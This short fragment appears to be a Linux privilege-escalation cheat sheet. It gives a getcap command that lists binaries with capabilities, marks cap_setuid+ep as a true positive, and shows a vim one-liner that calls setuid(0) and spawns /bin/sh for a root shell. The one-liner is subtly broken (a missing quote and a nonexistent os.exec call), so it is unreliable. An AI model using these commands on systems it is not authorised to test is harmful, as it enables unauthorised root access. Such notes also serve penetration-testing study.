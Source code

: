 # Example

### getcap -r / 2>/dev/null

## True Positive: cap_setuid+ep

## Example:

### ./vim -c ':py3 import os; os.setuid(0); os.exec("/bin/sh, "sh", "-c", "reset; exec sh")'


